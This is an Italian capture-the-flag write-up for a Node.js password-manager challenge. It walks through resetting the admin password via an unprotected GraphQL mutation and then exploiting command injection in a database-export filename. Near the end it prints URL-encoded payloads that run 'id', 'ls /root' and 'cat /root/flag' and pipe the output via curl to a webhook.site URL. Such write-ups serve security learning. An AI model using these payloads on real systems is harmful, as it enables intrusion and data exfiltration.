# IOI Vault

La pagina principale mostra una form di login e una per registrarci



Una volta loggati vediamo la nostra dashboard, questa è un password manager



Possiamo scaricare il codice sorgente e da dentro la cartella challenge vediamo che è una app node.js



Dentro helpers/GraphqlHelper.js vediamo che è possibile aggiornare la password di un qualsiasi utente, basta semplicemente essere autenticati



Loggiamoci con il nostro utente e copiamo il JWT, facciamo il logout e di nuovo il login, ma questa volta intercettiamo la richiesta con Burpsuite. A questa aggiungiamo il cookie, modifichiamo "query" specificando che vogliamo chiamare UpdatePassword e, dell'utente admin, scegliamo una password a nostro piacimento



Una volta dentro come admin vediamo la pagina settings, dove possiamo esportare il database



Dentro questo file ci sono diverse credenziali, ma nessuna di queste rivela la flag



Nel file routes/index.js c'è al funzione che scarica il file  del DB, questa prende il nome del file che gli viene passato e lo mette dentro il path, senza sanificarlo



Quello che faremo è inviare la flag ad un nostro web server, che apriremo su webhook.site



Eseguendo quella funzione ed intercettando la richiesta con burpsuite, possiamo modificare il valore di filename, mettendo un valore casuale da mettere nel path, separandolo dai comandi successivi con ';' poi il comando che ci interessa mettendolo in pipe con una curl che invia i dati al nostro webhook (x;\<comando>|curl https://\<ip> -d @-;#): 
- **controlliamo che utente siamo** (root): x%3Bid%7Ccurl%20https%3A%2F%2Fwebhook.site%2F91a69426-1d2a-4824-9286-fdd674cdad9d%20-d%20%40-%3B%23 
- **controlliamo cosa c'è nella home directory di root** (la flag): x%3Bls%20-l%20%2Froot%7Ccurl%20https%3A%2F%2Fwebhook.site%2F91a69426-1d2a-4824-9286-fdd674cdad9d%20-d%20%40-%3B%23
- **otteniamo la flag**:x%3Bcat%20%2Froot%2Fflag%7Ccurl%20https%3A%2F%2Fwebhook.site%2F91a69426-1d2a-4824-9286-fdd674cdad9d%20-d%20%40-%3B%23



Ora, in webhook aspettiamo la richiesta con la flag

